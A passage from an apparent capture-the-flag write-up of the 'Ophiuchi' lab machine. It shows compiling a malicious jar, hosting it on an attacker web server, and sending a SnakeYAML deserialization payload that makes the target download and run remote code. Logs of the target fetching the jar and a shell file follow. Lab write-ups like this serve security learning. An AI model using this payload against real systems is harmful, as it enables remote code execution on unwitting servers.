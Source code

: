After modifying the source we have to compile the code.

```java
$ javac src/artsploit/AwesomeScriptEngineFactory.java
$ jar -cvf yaml-payload.jar -C src/ .
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1478) (out= 389)(deflated 73%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1605) (out= 666)(deflated 58%)
```

Now we set up a webserver hosting the resulting `yaml-payload.jar` and modify our yaml code to download and load the file.

```php
sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.19/yaml-payload.jar"]
  ]]
]
```

[![trigger.png](/img/ophiuchi/trigger.png)](/img/ophiuchi/trigger.png)

The deserilization seems to work and we get a hit on our server for our `shell` file right after the hit for the `yaml-payload.jar`.

```php
$sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.167.24 - - [03/Jul/2021 03:50:56] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.129.167.24 - - [03/Jul/2021 03:50:56] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.129.167.24 - - [03/Jul/2021 03:50:56] "GET /shell HTTP/1.1" 200 -
```
